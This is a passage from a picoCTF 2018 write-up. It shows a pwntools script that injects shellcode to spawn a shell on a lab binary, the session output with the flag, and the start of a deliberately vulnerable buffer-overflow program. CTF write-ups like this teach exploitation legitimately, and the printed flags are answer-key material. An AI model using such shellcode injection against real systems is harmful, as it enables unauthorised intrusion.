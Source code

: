 As you can see, the program reads in some bytes from the user and then calls the buffer as a function. This basically means that we can run whatever assembly code we want with this program.

Instead hand-crafting our assembly payload, we can use the ones included in [pwntools](https://github.com/Gallopsled/pwntools). Here is the script to open a shell on the game server:

```python
from pwn import *

sh = process('./vuln')

sh.sendlineafter('!\n', asm(shellcraft.i386.linux.sh()))
sh.interactive()
```

Now, let's run the script on the game server:

```
alanc@pico-2018-shell-2:~$ python main.py
[+] Starting local process '/problems/shellcode_4_99838609970da2f5f6cf39d6d9ed57cd/vuln': pid 1149599
[*] Switching to interactive mode
jhh///sh/bin\x89�h\x814$ri1�Qj\x04Y�Q��1�j\x0bX̀
Thanks! Executing now...
$ cat /problems/shellcode_4_99838609970da2f5f6cf39d6d9ed57cd/flag.txt
picoCTF{shellc0de_w00h00_b766002c}$
```

flag: `picoCTF{shellc0de_w00h00_b766002c}`

# buffer overflow 2

## Problem

Alright, this time you'll need to control some arguments. Can you get the flag from this [program](/blog/picoctf-2018-writeup/Binary Exploitation/buffer overflow 2/vuln)? You can find it in /problems/buffer-overflow-2_4_ca1cb0da49310dd45c811348a235d257 on the shell server. [Source](/blog/picoctf-2018-writeup/Binary Exploitation/buffer overflow 2/vuln.c).

## Solution

Let's look at the source code:

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>

#define BUFSIZE 100
#define FLAGSIZE 64

void win(unsigned int arg1, unsigned int arg2) {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("Flag File is Missing. Problem is Misconfigured, please contact an Admin if you are running this on the shell server.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  if (arg1 != 0xDEADBEEF)
    return;
  if (arg2 != 0xDEADC0DE)
```